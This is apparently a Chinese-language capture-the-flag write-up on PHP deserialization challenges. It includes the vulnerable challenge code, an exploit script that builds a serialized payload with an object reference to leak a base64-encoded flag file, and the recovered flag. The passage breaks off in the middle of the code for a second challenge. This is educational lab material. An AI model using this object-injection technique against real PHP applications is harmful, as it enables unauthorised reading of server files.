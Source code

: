 ```
```
![868bd15f34e5cf5940a9c4e436e1bf36.png](https://cdn.nlark.com/yuque/0/2023/png/39174886/1699528372209-b2541f92-19c7-4060-b2ab-b08e3d4eaa19.png#averageHue=%23f9f8f7&clientId=u72270d6e-ec62-4&from=paste&height=130&id=u0230c042&originHeight=163&originWidth=771&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14914&status=done&style=none&taskId=u8068fef8-a61c-46ec-8f07-f0a95e1c33a&title=&width=616.8)
进入下一关
` flag{This_is_fake_flag}P0int.php  `
```
<?php
highlight_file(__FILE__);
error_reporting(0);
class Clazz
{
    public $a;
    public $b;

    public function __wakeup()
    {
        $this->a = file_get_contents("php://filter/read=convert.base64-encode/resource=g0t_f1ag.php");
    }
    public function __destruct()
    {
        echo $this->b;
    }
}
@unserialize($_POST['data']);

?> 
```
反序列化会启动_wakeup方法我们给a传入new Clazz相当于销毁原对象构造新对象来触发_destruct方法，然后用指针将a的伪协议值赋给b
```
<?php
class Clazz
{
    public $a;
    public $b;
}
$A=new Clazz;
$A->a=new Clazz;
$A->b= &$A->a;
echo serialize($A);
?>O:5:"Clazz":2:{s:1:"a";O:5:"Clazz":2:{s:1:"a";N;s:1:"b";N;}s:1:"b";R:2;}
```
得到flag
` PD8NCiRGTEFHPSAiRkxBR3t5MHVfYXJlX2wwdmUhISEhfSINCj8+DQo=  `
```
<?
$FLAG= "FLAG{y0u_are_l0ve!!!!}"
?>
```
### 2.FSCTF2023 ez_php2
```
 <?php
highlight_file(__file__);
Class Rd{
    public $ending;
    public $cl;

    public $poc;
    public function __destruct()
    {
        echo "All matters have concluded";
        die($this->ending);
    }
    public function __call($name, $arg)
```